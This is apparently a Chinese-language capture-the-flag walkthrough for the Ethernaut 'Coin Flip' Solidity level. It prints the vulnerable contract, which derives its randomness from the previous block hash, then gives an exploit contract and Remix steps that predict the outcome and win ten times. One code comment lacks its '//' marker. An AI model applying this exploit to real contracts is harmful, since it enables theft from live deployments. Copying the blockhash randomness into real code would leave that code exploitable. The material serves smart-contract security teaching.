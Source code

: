 ### Coin Flip
### 题目
这是一个掷硬币的游戏，你需要连续的猜对结果。完成这一关，你需要通过你的超能力来连续猜对十次。
### 提示
查看上面的帮助页面，"Beyond the console" 部
### 源码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    //连胜次数-最后一个哈希值-随机数
    uint256 public consecutiveWins;
    //上一个区块的哈希值
    uint256 lastHash;
    //常量，用于将区块哈希值转换为一个较小的数值
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    //构造函数-合约执行时连胜值初始化为0
    constructor() {
        consecutiveWins = 0;
    }

    //flip函数，返回一个bool值-猜测结果
    function flip(bool _guess) public returns (bool) {
        //对当前区块数-1的值取哈希然后转为uint256
        uint256 blockValue = uint256(blockhash(block.number - 1));
        
        //如果上一个区块的哈希值等于blockValue，就进行回滚交易，不会记录在区块中
        //防止重放攻击
        if (lastHash == blockValue) {
            revert();
        }
    
        //更新lasthash
        lastHash = blockValue;
        //硬币翻转结果
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        如果猜对了，连胜次数加1，返回true，否则连胜次数归0，返回false
        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```
### 解题思路
硬币翻转结果和当前区块相关，只要获取当前区块数，就可以知道当前的硬币结果  
手动执行有些困难，因此需要写一个合约来自动执行  
### 解题过程
```solidity
contract exploit {
    CoinFlip expFlip;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    function exploit(address aimAddr) {
        expFlip = CoinFlip(aimAddr);
        }
    function hack() public {
        uint256 blockValue = uint256(block.blockhash(block.number-1));
        uint256 coinFlip = uint256(uint256(blockValue) / FACTOR);
        bool guess = coinFlip == 1 ? true : false;
        expFlip.flip(guess);
        }
    }
```
1.获取实例后，获取合约的地址以及consecutiveWins  
2.在remix编译合约  
3.remix中部署“exploit”合约，使用上面获取到的合约地址  
4.调用十次hack（）攻击函数  
5.检查consecutiveWins是否大于10  
6.大于10则提交  
